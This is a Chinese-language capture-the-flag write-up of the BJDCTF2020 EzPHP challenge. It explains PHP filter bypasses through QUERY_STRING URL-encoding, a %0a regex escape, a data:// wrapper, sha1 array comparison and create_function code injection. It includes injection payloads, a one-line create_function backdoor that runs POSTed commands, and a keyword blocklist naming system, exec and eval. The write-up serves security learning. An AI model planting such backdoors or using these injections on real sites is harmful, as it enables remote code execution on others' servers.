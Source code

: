# [BJDCTF2020]EzPHP

## 0、知识点

>   `$_SERVER` 函数中`QUERY_STRING`

>    `preg_match`绕过

>   `$_REQUEST`绕过

-   **`$_REQUEST`变量包含了 `$_GET、$_POST 和 $_COOKIE` `的内容。**

>   `file_get_contents`绕过

>   `sha1`比较

>   `create_function()`代码注入，==从**PHP 7.2.0**开始，**create_function()**被废弃==



## 1、关于create_function

**适用范围**：`PHP 4> = 4.0.1`，`PHP 5`，`PHP 7`

>   功能：根据传递的参数**创建匿名函数**，并为其返回唯一名称。
>
>   **create_function()函数会在内部执行 eval()，**
>
>   后面的`return`语句，属于`create_function()`中的第二个参数`string $code`位置。

>   `create_function()`函数在代码审计中，主要用来**查找**项目中的**代码注入**和**回调后门**

```php
// 基础形式
create_function(string $args,string $code)
	// string $args 声明的函数变量部分
	// string $code 执行的方法代码部分

// 正常使用案例(运行时会显示这个方法已弃用)
<?php
    $new = create_function('$a,$b','return $a * $b;');
    echo $new(1,2);
?>
    // 等价以下
    <?php
        function lambda1('$a,$b'){
    		return $a * $b;	
		}
	?>
```

**注入案例**

>   **重点就是：闭合原有的括号，注释末尾的大括号**

```php
<?php
    error_reporting(0);
    $sort_by = $_GET['sort_by'];    // ?sort_by='"]);}phpinfo();/*
    $sorter = 'strnatcasecmp';
    $databases=array('1234','4321');
    $sort_function = ' return 1 * ' .$sorter.'($a["'.$sort_by.'"], $b["'.$sort_by.'"]);';
    echo '<h1>'.$sort_function.'</h>';
	// return 1 * strnatcasecmp($a["'"]);}phpinfo();/*"], $b["'"]);}phpinfo();/*"]);

    usort($databases, create_function('$a, $b', $sort_function));
?>
    # 思路
    # 由于$sort_function是属于create_function的第二个参数，是会被放在代码体中执行，
    # 那么在注入过程中要想办法先闭合【$a["'】,然后再闭合大括号，为什么 要闭合大括号，因为函数实际执行以下
    # function niming($a,$b){
	#	return 1 * ' . $sorter . '($a["' . $sort_by '"]);
	# }
    # phpinfo();/*
	# }
    # 将函数的大括号闭合，就等于跳出了函数体外，可以随意执行代码，最后加个【/*】注释掉后面的东西以避免报错
```

**也可以设置后门**

```php
<?php 
    $func =create_function('',$_POST['cmd']);
	$func();
?>
```

## 2、关于`$_SERVER`

```nginx
# http://localhost/aaa/index.php?p=222&q=333 (多个参数查询)
结果：
	# 获取查询 语句，实例中可知，获取的是?后面的值
$_SERVER['QUERY_STRING'] = "p=222&q=333";
	# 获取 http://localhost 后面的值，包括/
$_SERVER['REQUEST_URI']  = "/aaa/index.php?p=222&q=333";
	# 获取当前脚本的路径，如：index.php
$_SERVER['SCRIPT_NAME']  = "/aaa/index.php";
	# 当前正在执行脚本的文件名
$_SERVER['PHP_SELF']     = "/aaa/index.php";
```



## 3、解题

>   打开题目查看源代码，发现注释，**base32解码得到**`1nD3x.php`

>   

### 一、$_SERVER['QUERY_STRING']

>   `$_SERVER['QUERY_STRING']`**不会进行urldecode**，`$_GET[]`会，**用url编码绕过**
>
>   **说明所有参数需要url编码，才能过这步**

```php
// query string（查询字符串），如果有的话，通过它进行页面访问
if($_SERVER) { 
    if ( preg_match('/shana|debu|aqua|cute|arg|code|flag|system|exec|passwd|ass|eval|sort|shell|ob|start|mail|\$|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|read|inc|info|bin|hex|oct|echo|print|pi|\.|\"|\'|log/i', $_SERVER['QUERY_STRING'])
        )  
        die('You seem to want to do something bad?'); 
}

```

### 二、正则绕过

>   `preg_match('/^$/')`用换行符`%0a`绕过

```php
if (!preg_match('/http|https/i', $_GET['file'])) {
    if (preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute') { 
        $file = $_GET["file"]; 
        echo "Neeeeee! Good Job!<br>";
    } 
} else die('fxck you! What do you want to do ?!'); 
```

### 三、$_REQUEST

>   `$_REQUEST`在同时接收`GET`和`POST`参数时，`POST`**优先级更高**，**所有需要post和get同时传参**

```php
if($_REQUEST) { 
    foreach($_REQUEST as $value) { 
        if(preg_match('/[a-zA-Z]/i', $value))  
            die('fxck you! I hate English!'); 
    } 
} 
```

### 四、file_get_contents

>   `file_get_contents`函数，用data伪协议绕过`data://text/plain,debu_debu_aqua`

>   `playload：file=data://text/plain,debu_debu_aqua&debu=aqua_is_cute`

```php
if (file_get_contents($file) !== 'debu_debu_aqua')
    die("Aqua is the cutest five-year-old child in the world! Isn't it ?<br>");
```

### 五、sha1()比较

>   `sha1()`函数无法处理数组，`$shana`和$`passwd`都是数组时都是false。

>   `playload：&shana[]=1&passwd[]=2`

>   **进入这里之后，还需要传入一个数组参数【flag】，用于最后一进行create_function注入**
>
>   **其中`extract()`函数的作用就是将flag数组中的参数导入进来**

```php
if (sha1($shana) === sha1($passwd) && $shana != $passwd ){
    // extract() 从数组中将变量导入到当前的符号表
    extract($_GET["flag"]);
    echo "Very good! you know my password. But what is flag?<br>";
} else{
    die("fxck you! you don't know my password! And you don't know sha1! why you come here!");
}
```

### 六、create_function注入

>   需要构造create_function进行注入，基础的注入方式上面已经介绍过了
>
>   就是首先闭合括号，然后执行函数，然后注释后面的语句，这需要用到的函数有
>
>   `var_dump — 打印变量的相关信息`
>
>   `get_defined_vars() 函数返回由所有已定义变量所组成的数组`

```php
if(preg_match('/^[a-z0-9]*$/isD', $code) || 
preg_match('/过滤条件省略\^/i', $arg) ) { 
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w="); 
} else { 
    include "flag.php";
    $code('', $arg); 
}
```









参考

https://www.cnblogs.com/luomir/p/5129875.html

https://www.cnblogs.com/-qing-/p/10816089.html

https://www.cnblogs.com/-chenxs/p/11459374.html

https://www.cnblogs.com/rabbittt/p/13323155.html

